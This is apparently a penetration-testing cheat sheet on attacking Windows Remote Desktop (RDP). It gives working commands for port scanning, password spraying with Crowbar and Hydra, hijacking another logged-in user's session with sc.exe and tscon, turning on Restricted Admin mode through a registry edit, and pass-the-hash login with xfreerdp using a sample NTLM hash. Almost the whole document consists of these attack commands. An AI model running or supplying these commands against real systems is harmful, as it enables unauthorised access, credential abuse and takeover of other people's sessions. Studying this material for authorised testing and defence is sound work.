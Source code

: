 # Identify the available RDP service

## nmap

```bash
nmap -Pn -p3389 192.168.2.143 
```

---

# Password Spraying Against RDP

## Crowbar - Bruteforce RDP

- The password will be tested against a userlist

```bash
crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'
```

## Hydra - Bruteforce RDP

```bash
 hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp
```

---

# RDP Login

## rdesktop

```bash
 rdesktop -u admin -p password123 192.168.2.143
```

## xfreerdp3

```bash
xfreerdp /v:ip_address /u:username /p:password
```

---

# Protocol Specific Attacks - RDP

## RDP Session Hijacking

Note: This method no longer works on Server 2019.

1. Gained access to a machine
2. We have an account with local administrator privileges
3. A user is connected via RDP to our compromised machine
4. We can hijack that users session

## Example

- We are logged in as the user juurena (UserID = 2) who has Administrator privileges. Our goal is to hijack the user lewen (User ID = 4), who is also logged in via RDP.

![image.png](attachment:2447b63f-b998-458c-92fc-52de14acbcae:image.png)

---

### List Active RDP Sessions

```bash
query user

 USERNAME              SESSIONNAME        ID  STATE   IDLE TIME  LOGON TIME
>juurena               rdp-tcp#13          1  Active          7  8/25/2021 1:23 AM
 lewen                 rdp-tcp#14          2  Active          *  8/25/2021 1:28 AM
```

---

### Create Service to Hijack RDP Session

```bash
sc.exe create sessionhijack binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#13"
```

![image.png](attachment:eb488ef3-2da9-497d-b1d2-37e9fbbcb67e:image.png)

---

### Start the Hijack Service

```bash
net start sessionhijack
```

---

### Manually Hijack RDP Session (Alternative)

```bash
tscon {TARGET_SESSION_ID} /dest:{OUR_SESSION_NAME}
```

---

## RDP Pass-the-Hash (PtH)

Restricted Admin Mode, which is disabled by default, should be enabled on the target host; otherwise, we will be prompted with the following error:

![image.png](attachment:200be891-317f-4740-a322-70de4ce8d225:image.png)

This can be enabled by adding a new registry key DisableRestrictedAdmin (REG_DWORD) under HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa. It can be done using the following command:

### 🔑 Add Registry Key to Enable Restricted Admin Mode

```bash
reg add HKLM\\System\\CurrentControlSet\\Control\\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

![image.png](attachment:d519acb3-d43c-4559-8853-b5b86683f9b0:image.png)

---

Once it is added we can xfreerdp with the pass the hash command

### 💻 RDP Pass-the-Hash with xfreerdp

```bash
xfreerdp /v:192.168.220.152 /u:lewen /pth:300FF5E89EF33F83A8146C10F5AB9BB9
```

